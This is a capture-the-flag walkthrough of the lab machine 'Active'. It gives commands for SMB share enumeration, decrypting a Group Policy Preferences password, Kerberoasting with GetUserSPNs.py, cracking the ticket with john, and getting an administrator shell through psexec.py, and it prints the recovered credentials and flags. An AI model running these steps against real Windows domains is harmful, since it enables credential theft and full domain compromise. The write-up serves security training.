## Active
*Easy*

I did port scanning using rustscam
```
rustscan -a 10.10.10.100 -- -A
```




Also I used smbmap to find what I can access since ports 139 and 445 are active.

```
smbmap -H 10.10.10.100
```



I can access \Replication only. So to connect I used smbclient.
```
smbclient -N //10.10.10.100 /Replication --option='client min protocol=NT1'
```
I looked around and found something at \active.htb\Policies\\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\\



I brought Groups.xml to my machine.



Here, I found the user, SVC_TGS, whose password hash is 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
In Microsoft all the passwords are encrypted with the same key, which is known publicly. I used the tool gpp-decrypt to crack the hash.


So the password is 'GPPstillStandingStrong2k18'

Now again I used smbmap to see what I can access.

```
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```


So we can read \Users. Again I connected using smbclient.

```
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18 --option='client min protocol=NT1'
```



Thus, I got the user flag.
**86d67d8ba232bb6a254aa4d10159e983**


### Privilage Escalation

With active.htb\STV_TGS we can find the administrator password hash. [This](https://www.secureauth.com/labs/open-source-tools/impacket/) article was helpful.

So to get the admin password, I used the script called GetUserSPNs.py. The location is /usr/share/doc/python3-impact/expamles/GetUserSPNs.py

```
python3 /usr/share/doc/python3-impact/examples/GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```


I then cracked the hash using john. The administrator password is 'Ticketmaster1968'.
```
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
```


I again used smbmap to see what I could access, this time as the administrator.
```
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```


Thus we can access ADMIN$ and C$. Generally in windows machines, the root password is at C$, in the Desktop folder of the administrator.
```
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
```


Thus, I got the root flag. **b5fc76d1d6b91d77b2fbf2d54d0f708b**

I wanted the shell also. So I found the suitable script, psexec.py in the same location as before.

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```


Thus I got the shell as the adminstrator :)

